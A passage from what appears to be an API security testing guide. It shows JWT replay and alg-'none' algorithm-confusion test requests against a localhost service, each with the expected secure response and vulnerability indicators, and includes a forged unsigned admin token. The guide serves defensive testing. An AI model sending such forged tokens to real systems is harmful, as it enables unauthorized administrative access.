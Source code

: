 ```http
  }
}
```

## 2. JWT Token Manipulation Attacks

### 2.1 Token Replay Attack

```http
GET /api/user/profile HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyXzEyMzQ1IiwiaWF0IjoxNjQwOTk1MjAwLCJleHAiOjE2NDA5OTg4MDB9.signature
Accept: application/json
```

**Expected Secure Response:**
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "id": "user_12345",
  "email": "testuser@security.test",
  "username": "securitytester"
}
```

**Vulnerability Indicators:**
- ❌ Token accepted after logout
- ❌ Token works from different IP/device without validation

### 2.2 Algorithm Confusion Attack (alg: none)

```http
GET /api/user/profile HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiIsImV4cCI6OTk5OTk5OTk5OSwicm9sZSI6ImFkbWluIiwidXNlcl9pZCI6IjEifQ.
Accept: application/json
```

**Token Breakdown:**
- Header: `{"alg":"none","typ":"JWT"}`
- Payload: `{"sub":"admin","exp":9999999999,"role":"admin","user_id":"1"}`
- Signature: (empty)

**Expected Secure Response:**
```http
HTTP/1.1 401 Unauthorized
Content-Type: application/json

{
  "error": "Invalid token algorithm",
  "message": "Algorithm 'none' is not allowed"
}
```
